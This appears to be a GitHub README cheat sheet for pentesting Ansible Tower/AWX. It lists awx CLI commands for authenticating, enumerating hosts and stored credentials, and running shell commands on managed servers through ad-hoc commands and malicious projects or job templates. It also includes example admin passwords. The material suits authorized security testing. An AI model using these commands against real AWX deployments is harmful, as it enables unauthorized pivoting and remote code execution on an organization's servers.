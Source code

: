 # Offensive AWX

Offensive AWX consists of cheat sheets and information to pentest Ansible Tower and AWX. AWX will be used to refer to AWX as well as Ansible Tower. The `awx` CLI will be used throughout this documentation to allow for more flexible exploitation. Anything done with the CLI can usually be done with the UI as well.

Access to AWX can often be leveraged to pivot in an environment and gain remote code executions on servers.

* [Install AWX](#install-awx)
* [Authentication](#authentication)
  * [Username and password](#username-and-password)
  * [Inline](#inline)
  * [Tokens](#tokens)
* [Reconnaissance](#reconnaissance)
  * [Version](#version)
  * [Organizations](#organizations)
  * [Projects](#projects)
  * [Inventories](#inventories)
  * [Groups](#groups)
  * [Hosts](#hosts)
  * [Credentials](#credentials)
* [Code execution](#code-execution)
  * [Ad-Hoc commands](#ad-hoc-commands)
  * [Code execution through projects](#code-execution-through-projects)
    * [Creating or modifying projects](#creating-or-modifying-projects)
    * [Job templates](#job-templates)
* [Credential stealing](#credential-stealing)

## Install AWX

```bash
python -m pip install awxkit
```

## Authentication

### Username and password

To validate AWX credentials without having impact, you can use the `me` or the `ping` command. Exporting the variables will avoid having to specify them every request.

```bash
export CONTROLLER_HOST=http://10.1.1.1:10445
export CONTROLLER_USERNAME=admin
export CONTROLLER_PASSWORD=Passw0rd1
awx me
```

### Inline

You can specify your username and password on every request with the `--conf.username` and `--conf.password` parameters

```bash
awx --conf.username admin --conf.password Passw0rd1 me
```

### Tokens

Using the login function will create a personal access token. You may want to add a description for future reference:

```bash
export CONTROLLER_HOST=http://10.1.1.1:10445
export CONTROLLER_USERNAME=admin
export CONTROLLER_PASSWORD=Passw0rd1
awx login --description "Pentest XYZ" -f human
```

Listing your tokens will display the one you just created:

```bash
awx me -f human
awx tokens list -f human --filter "id,name,description" --user <id>
```

To clean up your token, you can use the `delete` function:

```bash
awx tokens delete <id>
```

## Reconnaissance

Gather information on the server's content.

### Version

```bash
awx ping
```

### Organizations

Organizations are security boundaries for inventories, users, etc.

Listing organizations in the human readable format:

```bash
awx organizations list -f human --filter "id,name,description"
```

Get one organization in particular:

```bash
awx organizations get <id>
```

### Projects

Listing projects in the human readable format:

```bash
awx projects list -f human --filter "id,name,description"
```

Get one project in particular:

```bash
awx projects get <id>
```

### Inventories

An inventory contains hosts.

Listing inventories in the human readable format:

```bash
awx inventory list -f human
```

Getting a specific inventory's details:

```bash
awx inventory get <id>
```

### Groups

Groups contain hosts as well. An inventory can be split into groups for more granular management.

List groups:

```bash
awx groups list -f human
```

List groups for an inventory:

```bash
awx groups list -f human --inventory <id>
```

### Hosts

List hosts:

```bash
awx hosts list -f human --filter "id,name,inventory"
```

List hosts by inventory:

```bash
awx hosts list -f human --filter "id,name,inventory" --inventory <id>
```

Get a single host:

```bash
awx hosts get <id>
```

### Credentials

Credentials can be used to connect to hosts to run commands.

```bash
awx -k --conf.host http://10.2.255.253:10445 --conf.username admin --conf.password JdkQyYf0JO8zqak4ldBwdusrEfFCw7Wm credentials list -f human
```

## Code execution

There are multiple approches to code execution. You can run ad-hoc commands, create or modify projects or templates, etc.

### Ad-Hoc commands

Listing ad-hoc commands in the human readable format:

```bash
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands list -f human
```

Creating an add-hoc command and getting its output:

```bash
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands create --inventory <inventory id> --credential <credential_id> --module_name shell --module_args 'whoami; hostname;'
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands stdout <command id>
```

### Code execution through projects

#### Creating or modifying projects

Creating a project:

```bash
awx projects create --wait --organization  --name='My project' --scm_type git --scm_url 'https://github.com/lm-sec/offensive-awx.git' -f human
```

Modifying a project's `scm_url`:

```bash
awx projects modify <id> --scm_url "https://github.com/lm-sec/offensive-awx.git"
```

For a private git repository, you can create credentials and add them to the project. Use the `Source Control` credential type:

```bash
awx credential_types list -f human
awx organization list -f human
awx credentials create --name "GitHub read" --description "GitHub personal access token" --organization <id> --credential_type <id> --inputs '{ "username":"your-user", "password":"github_pat_your-access-token" }' -f human
awx projects modify <id> --credential <id> -f human
```

#### Job templates

Listing job templates in the human readable format:

```bash
awx job_templates list -f human
```

Creating a job template for the `hostname_whoami.yml` playbook for a project with the `scm_url` value of `https://github.com/lm-sec/offensive-awx.git`:

```bash
awx job_templates create --name='My job template' --project <id> --inventory <id> --playbook '/playbooks/hostname_whoami.yml' -f human
```

Launching a job template:

```bash
awx job_templates launch <id> --monitor -f human
```

Reading the output:

```bash
awx jobs stdout <id>
```

## Credential stealing

> TODO
